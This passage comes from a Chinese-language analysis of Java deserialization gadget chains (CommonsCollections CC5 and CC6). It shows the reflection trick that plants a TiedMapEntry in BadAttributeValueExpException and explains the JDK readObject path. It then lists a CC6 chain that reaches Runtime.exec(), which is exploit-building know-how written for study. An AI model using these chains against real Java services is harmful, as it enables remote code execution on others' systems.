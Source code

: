 ```java

   Requires:
      commons-collections
 */
```

```java
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valfield = val.getClass().getDeclaredField("val");
Reflections.setAccessible(valfield);
valfield.set(val, entry);

public BadAttributeValueExpException (Object val) {
    this.val = val == null ? null : val.toString();
}
```

这里直接给`val`赋值会执行`val.toString()`，所以用的反射

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ObjectInputStream.GetField gf = ois.readFields();
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
            || valObj instanceof Long
            || valObj instanceof Integer
            || valObj instanceof Float
            || valObj instanceof Double
            || valObj instanceof Byte
            || valObj instanceof Short
            || valObj instanceof Boolean) {
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```

这里调用了`TiedMapEntry.toString()`，进一步调用了`getValue`，最后到了`LazyMap.get()`，之后就和CC1一样了

# CC-6

## 利用链

```java
/*
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

```